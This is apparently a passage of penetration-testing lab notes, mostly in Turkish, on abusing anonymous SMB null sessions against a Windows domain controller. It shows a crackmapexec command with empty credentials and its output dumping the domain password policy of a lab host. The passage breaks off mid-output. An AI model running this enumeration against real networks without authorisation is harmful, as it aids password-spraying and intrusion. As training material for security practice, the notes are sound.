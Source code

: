 
## Exploiting NULL/Anonymous Sessions

[NULL Session](https://en.wikipedia.org/wiki/Null_session), Windows tabanlı bilgisayarlarda bir inter-process communication (IPC) ağ servisine anonim bir bağlantıdır. Bu servis, named pipe bağlantılarına izin vermek üzere tasarlanmış olsa da, saldırganlar tarafından sistem hakkında uzaktan bilgi toplamak için kullanılabilir. 

Bir hedef, özellikle bir domain controller  `NULL Session'a` karşı savunmasızsa, saldırganın geçerli bir domain hesabına sahip olmadan aşağıdaki gibi bilgileri toplamasına izin verebilir:

* Domain users ( --users )
* Domain groups ( --groups )
* Password policy ( --pass-pol )
* Share folders ( --shares )

 Aşağıdaki komutları kullanarak bir domain controller üzerinde deneyelim:

### Enumerating the Password Policy
 
```
crackmapexec smb 10.129.203.121 -u '' -p '' --pass-pol

SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)

SMB 10.129.203.121 445 DC01 [+] Dumping password
info for domain: INLANEFREIGHT

SMB 10.129.203.121 445 DC01 Minimum password
length: 7

SMB 10.129.203.121 445 DC01 Password history
length: 24

SMB 10.129.203.121 445 DC01 Maximum password age:
41 days 23 hours 53 minutes

SMB 10.129.203.121 445 DC01

SMB 10.129.203.121 445 DC01 Password Complexity
Flags: 000001

SMB 10.129.203.121 445 DC01 Domain Refuse
Password Change: 0

SMB 10.129.203.121 445 DC01 Domain Password
Store Cleartext: 0

SMB 10.129.203.121 445 DC01 Domain Password
Lockout Admins: 0

SMB 10.129.203.121 445 DC01 Domain Password No
Clear Change: 0

SMB 10.129.203.121 445 DC01 Domain Password No
Anon Change: 0

SMB 10.129.203.121 445 DC01 Domain Password
Complex: 1

SMB 10.129.203.121 445 DC01

SMB 10.129.203.121 445 DC01 Minimum password age:
```